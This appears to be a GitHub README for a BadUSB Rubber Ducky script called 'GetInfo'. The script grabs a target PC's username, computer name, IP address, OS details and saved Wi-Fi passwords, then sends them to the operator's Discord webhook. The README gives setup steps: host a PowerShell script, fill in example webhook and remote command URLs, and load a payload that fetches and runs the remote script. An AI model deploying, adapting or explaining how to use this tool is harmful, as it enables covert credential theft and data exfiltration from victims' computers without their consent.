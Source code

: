 # GetInfo - BadUSB Rubber Ducky Script

This BadUSB Rubber Ducky script is designed to swiftly collect information from a target's PC and transmit it to your personal Discord server. The script runs for approximately 3 seconds, gathering data such as username, computer name, disk location, account details, OS version, IP address, and previously signed-in Wi-Fi networks with passwords.

## How to Set Up


1. Duplicate this GitHub repository to host it online for accessibility.


2. Edit the code in the duplicated `getinfo.ps1` file to update the Discord webhook API credentials at line 7 and the URL to `command.txt` at line 9 with your specific information,
EXAMPLE:

`$hookUrl = "https://discord.com/api/webhooks/120056/HOw7_j7W-jMllc-uZMbCWq1DEYJUuKj"`

`$url = "https://github.com/6uard1an/Cool-FLipper-Zero-BadUSB-s/raw/main/command.txt"`


4. On your BadUSB Rubber Ducky device, install the script from `RemoteHack.txt`.


5. Replace `'link-to/getinfo.ps1'` in the script with the custom hosted URL of your `.ps1` file within the duplicated GitHub repository.


5.The updated RemoteHack.txt is your new payload file.
By following these steps, you can deploy and customize the GetInfo script for your specific use case. Ensure that the Discord webhook and the URL to `command.txt` in your duplicated GitHub repository are correctly configured in the `.ps1` file for the script to function as intended, securely transmitting gathered information to your Discord server.
